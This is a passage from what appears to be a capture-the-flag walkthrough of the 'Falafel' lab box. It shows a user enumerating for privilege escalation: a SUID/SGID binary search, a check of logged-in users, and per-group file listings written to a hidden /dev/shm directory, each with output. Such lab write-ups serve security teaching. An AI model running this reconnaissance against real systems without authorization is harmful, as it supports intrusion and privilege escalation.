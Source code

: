     <div>

        moshe@falafel:~$ # find starting at root (/), SGID or SUID, not Symbolic links, only 3 folders deep, list with more detail and hide any errors (e.g. permission denied)
        moshe@falafel:~$ find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null
        -rwsr-xr-x 1 root root 23376 Jan 18  2016 /usr/bin/pkexec
        -rwsr-xr-x 1 root root 49584 May 17  2017 /usr/bin/chfn
        -rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
        -rwsr-xr-x 1 root root 75304 May 17  2017 /usr/bin/gpasswd
        -rwsr-xr-x 1 root root 39904 May 17  2017 /usr/bin/newgrp
        -rwsr-xr-x 1 root root 54256 May 17  2017 /usr/bin/passwd
        -rwsr-xr-x 1 root root 32944 May 17  2017 /usr/bin/newgidmap
        -rwsr-xr-x 1 root root 40432 May 17  2017 /usr/bin/chsh
        -rwsr-xr-x 1 root root 32944 May 17  2017 /usr/bin/newuidmap
        -rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
        -rwsr-xr-x 1 root root 40152 Jun 15  2017 /bin/mount
        -rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
        -rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
        -rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
        -rwsr-xr-x 1 root root 40128 May 17  2017 /bin/su

    </div>

    </div>

## Success - Screenshot of yossi

We notice that yossi is physically logged into the host:



    moshe@falafel:~$ w
     16:18:31 up  9:16,  2 users,  load average: 0.95, 0.73, 0.56
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
    yossi    tty1                      07:02    9:16m  0.16s  0.10s -bash
    moshe    pts/0    10.10.14.159     16:17    0.00s  0.11s  0.02s w



If we look at the groups that we're in, there's some unusual ones:



    moshe@falafel:/dev/shm/.z$ groups
    moshe adm mail news voice floppy audio video games



Grab files in each group, excluding directories:



    moshe@falafel:/dev/shm/.z$ for x in $(groups); do echo ========${x}========; find / -group ${x} ! -type d -exec ls -la {} \; 2>/dev/null > ${x}; done
    ========moshe========
    ========adm========
    ========mail========
    ========news========
    ========voice========
    ========floppy========
    ========audio========
    ========video========
    ========games========
    moshe@falafel:/dev/shm/.z$ ls -l
    total 156
    -rw-rw-r-- 1 moshe moshe   2035 May 18 00:14 adm
    -rw-rw-r-- 1 moshe moshe    119 May 18 00:14 audio
    -rw-rw-r-- 1 moshe moshe      0 May 18 00:14 floppy
    -rw-rw-r-- 1 moshe moshe      0 May 18 00:14 games
    -rw-rw-r-- 1 moshe moshe      0 May 18 00:14 mail